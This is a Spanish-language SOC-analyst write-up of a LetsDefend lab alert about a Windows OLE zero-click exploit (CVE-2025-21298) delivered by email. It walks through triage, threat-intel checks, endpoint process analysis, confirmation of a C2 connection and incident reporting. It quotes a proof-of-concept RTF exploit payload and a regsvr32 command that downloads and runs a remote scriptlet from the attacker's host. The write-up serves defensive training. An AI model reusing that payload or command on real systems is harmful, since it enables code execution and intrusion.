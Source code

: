 
---
title: Let’s Defend SOC336
image: /assets/img/Anexos/Pasted%20image%2020250407101344-1.png
description: Let’s Defend: SOC336 — Windows OLE Zero-Click RCE Exploitation Detected (CVE-2025–21298)
categories: [Blue Team,LetsDefend]
tags: [soc]
---



## Introduction
Estamos dentro de un SOC y nos llega una alerta de un incidente de nivel **crírico** y tenemos que actuar.

### Description

- Name: SOC336
- Goal: Investigar el incidente
- link: [LetsDefend](https://app.letsdefend.io)


### PDF Link
- PDF: [PDF Link](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/LetsDefend/LetsDefend%20SOC336.pdf)



## Incidente


Una vez recibida la alerta en el SOC creamos un nuevo saco para esta alerta:

![](/assets/img/Anexos/Pasted%20image%2020250407090151-1.png)

### Contexto 
1. Se ha detectado -> Windows OLE Zero-Click RCE Exploitation Detection (CVE-2025–21298)
2. Se trata de un correo electrónico por Outlook.
3. Contiene un adjunto (mail.rtf)
4. La razón desencadenante (malicious RTF attachment identified with known CVE-2025–21298 exploit pattern)


La extensión RTF se refiere al ==formato de archivo Rich Text Format (Formato de Texto Enriquecido)==. Se trata de un formato de archivo que permite abrir y editar textos en varios programas de procesamiento de texto.

CVE-2025-21298 es una **vulnerabilidad de zero-click** in Windows OLE donde el atacante envia un correo malicioso con un adjunto _.rft_. Cuando la víctima abre o visualiza el correo, el atacante puede ejecutar código arbitrario dentro del sistema gracias al _.rft_. 

**Prueba de concepto**

> https://github.com/ynwarcs/CVE-2025-21298

```rtf
{\rtf1{\object\objhtml\objw1\objh1\objupdate\rsltpict{\*\objclass None}{\*\objdata 0105000002000000
0a000000
53746174696344696200
00000000
00000000
04000000
00000000
00000000
05000000
02000000
aa00
02000000
00000000
}
}}
```


**Información Importante para la investigación**

- Usuarios involucrados
- Hashes
- Direcciones IP
- Hostnames
- Ficheros
- Acciones tomadas


### Investigación

Primero acudo a webs de inteligencia para comprobar si el hash es malicioso. Inmediatamente **Virus Total** lo detecta como malicioso y detecta el CVE:

![](/assets/img/Anexos/Pasted%20image%2020250407090747-1.png)

También lo compruebo en el apartado de **Threat Intel** del SOC:

![](/assets/img/Anexos/Pasted%20image%2020250407090934-1.png)


Una vez confirmado que el adjunto es un exploit, hay que entender que ha pasado. Como la entrada del exploit fue via SMTP, voy directo a **Email Security** y comienzo a filtrar:

![](/assets/img/Anexos/Pasted%20image%2020250407091142-1.png)

Tras el filtrado, se reporta el mail que originó el ataque, fue enviado por _projectmanagement@pm.me_ a el usuario _Austin@letsdefend.io_.

![](/assets/img/Anexos/Pasted%20image%2020250407091220-1.png)

El correo es el siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407091301-1.png)

Este correo se hace pasar por el jefe de proyecto del equipo y contiene un título y cuerpo que generan urgencia.

Sabiendo esto, Vamos al apartado **Endpoint Security** y filtramos por Austin para buscar actividades sospechosas y encontramos el desencadenante:

![](/assets/img/Anexos/Pasted%20image%2020250407091442-1.png)

Se ejecuta `OUTLOOK` para visualizar el correo,  y segundos después `cmd` y `regsvr32`.

![](/assets/img/Anexos/Pasted%20image%2020250407103438-1.png)


![](/assets/img/Anexos/Pasted%20image%2020250407091553-1.png)



```powershell
regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll

# regsvr32.exe es una herramienta de línea de comandos que permite registrar y desregistrar controles OLE, como DLL y ActiveX, en el Registro de Windows

```

![](/assets/img/Anexos/Pasted%20image%2020250407091829-1.png)


OUTLOOK.EXE -> cmd.exe -> regsvr32.exe

Ahora podemos confirmar que se ha producido una ejecución de comandos explotando una vulnerabilidad en **Outlook**.  Ahora para obtener más información del servidor C2 (Command al Control) al que se ha hecho la solicitud mirando los logs y confirmar que se ha producido una conexión al C":


![](/assets/img/Anexos/Pasted%20image%2020250407092123-1.png)

Vemos que efectivamente se produjo una solicitud. Ahora el siguiente paso será ponerlo en cuarentena:


![](/assets/img/Anexos/Pasted%20image%2020250407092208-1.png)

Después de la Investigación toca reportar el incidente.

### Reporte

![](/assets/img/Anexos/Pasted%20image%2020250407092346-1.png)

En indicador ponemos "**otro**".

![](/assets/img/Anexos/Pasted%20image%2020250407092407-1.png)

En este apartado indicamos que el malware no fue eliminado ni puesto en curentena en ningún momento por el EDR:

![](/assets/img/Anexos/Pasted%20image%2020250407092446-1.png)

En el apartado análisis de malware indicamos que es malicioso ya que lo comprobamos anteriormente:

![](/assets/img/Anexos/Pasted%20image%2020250407092505-1.png)

Aquí confirmamos que hubo una petición a un C2 y se estableció la conexión:

![](/assets/img/Anexos/Pasted%20image%2020250407092529-1.png)

En los adjuntos podríamos añadir lo siguiente:

![](/assets/img/Anexos/Pasted%20image%2020250407092914-1.png)

Por último, en la nota final se podría añadir algo como:

![](/assets/img/Anexos/Pasted%20image%2020250407093225-1.png)